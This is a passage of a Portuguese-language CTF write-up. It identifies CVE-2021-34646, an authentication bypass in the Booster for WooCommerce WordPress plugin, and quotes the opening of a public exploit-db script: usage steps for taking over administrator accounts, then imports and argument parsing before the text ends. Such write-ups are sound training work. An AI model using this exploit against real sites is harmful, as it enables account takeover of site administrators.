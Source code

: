 
Abrimos o [3.º resultado](https://nvd.nist.gov/vuln/detail/CVE-2021-34646) e deparamo-nos com a seguinte descrição:

>Versions up to, and including, **5.4.3**, of the **Booster for WooCommerce WordPress 
>plugin** are **vulnerable to authentication bypass** via the process_email_verification 
>function due to a random token generation weakness in the 
>reset_and_mail_activation_link function found in the 
>~/includes/class-wcj-emails-verification.php file. This allows attackers to 
>impersonate users and trigger an email address verification for arbitrary accounts, 
>including administrative accounts, and automatically be logged in as that user, 
>including any site administrators. This requires the Email Verification module 
>to be active in the plugin and the Login User After Successful Verification 
>setting to be enabled, which it is by default.

Esta pareceu imediantamente ser a descrição da vulnerabilidade ideal para o CTF 
em questão e corresponde ao `CVE-2021-34646`.

De forma a confirmar as nossas suspeitas submetemos a flag "`flag{CVE-2021-34646}`" no 
desafio "Semana 4 - Desafio 1" e acertámos.

Agora faltava encontrar o exploit. Esta pesquisa foi simples, e bastou apenas 
pesquisar pelo CVE na plataforma [exploit-db.com](exploit-db.com) para 
encontrar um [exploit](https://www.exploit-db.com/exploits/50299):

```py
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
```